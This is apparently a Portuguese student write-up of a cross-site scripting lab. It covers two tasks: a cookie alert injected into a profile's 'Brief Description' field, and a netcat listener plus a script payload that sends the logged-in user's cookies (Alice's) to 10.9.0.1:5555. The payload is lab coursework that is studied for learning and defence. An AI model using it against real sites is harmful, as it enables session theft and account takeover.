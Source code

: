 ![/imgs10/withForm.png](/imgs10/withForm.png)

## Tarefa 2

Alterou-se novamente a secção *Brief Description* desta vez para:
```html
<script>alert(document.cookie);</script>
```

Como resultado, surgiu o *pop up* com as *cookies* do utilizador mal as alterações foram guardadas.

![/imgs10/cookies.png](/imgs10/cookies.png)

## Tarefa 3

Inicialmente, na *shell*, correu-se o seguinte comando por forma a iniciar o servidor TCP:
```sh
nc -lknv 5555
```

Seguidamente mudou-se *Brief Description* para efetuar o ataque:

```html
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');</script>
```

Após guardar as alterações no perfil, verificou-se a chegada das *cookies* do utilizador autenticado, neste caso, da Alice ao terminal onde se tinha iniciado o servidor.

![/imgs10/cookiesAlice.png](/imgs10/cookiesAlice.png)
